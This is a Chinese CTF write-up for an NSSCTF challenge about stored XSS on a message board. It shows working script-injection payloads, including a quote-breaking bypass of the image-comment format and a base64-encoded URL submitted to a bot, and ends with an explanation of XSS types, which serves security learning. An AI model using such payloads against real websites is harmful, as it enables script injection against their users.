





## 基本信息

- 题目名称：[NSSRound#18]门酱想玩什么呢
- 题目链接: https://www.nssctf.cn/problem/5123
- 考点清单: 存储型XSS攻击
- 工具清单：无
- 难度: 中等

## 一、看到什么

**题目关键信息列表**：

打开靶机播放完视频后出现做题界面：



查看网页源代码，发现如下JS代码：

<div style="font-size: 0.8em; max-height: 400px; overflow: auto;">

```javascript
document.querySelector('form').addEventListener('submit', async function(e) {
    e.preventDefault();
    var url = document.getElementById('url').value;
    var submitBtn = document.querySelector('button[type="submit"]');
    submitBtn.disabled = true;
    submitBtn.textContent = '提交中...';
    
    try {
        var response = await fetch(window.location.href, {
            method: 'POST',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify({url: url})
        });
        
        var result = await response.json();
        document.getElementById('result').textContent = result.message;
    } catch (error) {
        document.getElementById('result').textContent = '发生错误: ' + error.message;
    } finally {
        submitBtn.disabled = false;
        submitBtn.textContent = '提交';
    }
});
```
</div>

这段代码处理表单提交，向当前页面发送POST请求，并显示响应结果。

传递链接处尝试提交一个普通网站链接



发现回显要自己网站的链接

在首页找到评论区入口，进入留言板页面：



这是一个典型的留言板系统，通常是存储型XSS的常见目标。

## 二、想到什么解题思路

1. 题目要求让"门酱"访问元梦之星下载链接
2. 在留言板源码中有特殊的图片评论写法示例
3. 可能存在注入点
4. 需要构造特殊payload实现跳转

## 三、尝试过程和结果记录

1. 首先尝试基本的XSS payload：

```javascript
<script>document.location="https://ymzx.qq.com"</script>
```

结果：



尖括号和引号被转义，无法直接注入脚本。

2. 构造绕过Payload

根据留言板中的示例提示：

```
写法：http://xxx.xxx.xxx/xxx.png 这是一个示例 123 /png
```

构造特殊payload：

```javascript
http://"><script>document.location="https://ymzx.qq.com"</script>.png /png
```

提交后发现成功跳转到圆梦之星官网：

<div style="text-align: center;">


</div>

3. 最后一步是让"门酱"访问我们的XSS页面：

1. 已在留言板构造好XSS payload
2. 将留言板链接提交给"门酱"
3. 链接格式如下：

```url
http://node4.anna.nssctf.cn:28224/words/?title=MTIzNDU2&content=aHR0cCUzQSUyRiUyRiUyMiUzRSUzQ3NjcmlwdCUzRWRvY3VtZW50LmxvY2F0aW9uJTNEJTIyaHR0cHMlM0ElMkYlMkZ5bXp4LnFxLmNvbSUyMiUzQyUyRnNjcmlwdCUzRS5wbmclMjAlMkZwbmc=
```

"门酱"访问后会被重定向到元梦之星，我们获得flag。

## 四、总结与反思

XSS(跨站脚本攻击)是一种常见的Web安全漏洞：

- 全称Cross-Site Scripting
- 利用网站未对用户输入进行充分过滤
- 注入恶意JavaScript代码
- 被浏览器执行，获取用户信息或执行恶意操作

XSS的基本原理

- XSS攻击的核心是让受害者的浏览器执行攻击者提供的代码：
   1. 攻击者找到注入点
   2. 构造恶意代码
   3. 诱使用户访问含有恶意代码的页面
   4. 浏览器执行恶意代码
   5. 窃取信息或执行未授权操作

XSS的三种主要类型

**反射型XSS**
- 非持久性XSS
- 攻击代码包含在URL中
- 用户输入被立即"反射"回浏览器
- 需要诱使用户点击特制URL

**存储型XSS**
- 持久性XSS
- 攻击代码存储在目标服务器中
- 任何访问包含恶意代码的页面的用户都会受到攻击
- 危害更大，更难察觉

> 存储型XSS与反射型XSS的根本区别在于攻击向量的持久性。存储型XSS将恶意代码存储在服务器中，任何访问包含该代码的页面的用户都会成为受害者，无需额外诱导。这种持久性使得存储型XSS的危害更为严重，攻击范围更广，也更难以被用户察觉。

**DOM型XSS**
- 在客户端JavaScript中处理用户输入时发生
- 不涉及服务器处理
- 发生在浏览器DOM环境中
- 服务器响应内容可能完全正常



五、参考链接：

- 《从0到1：CTFer成长之路》

- 《web漏洞解析与攻防实战》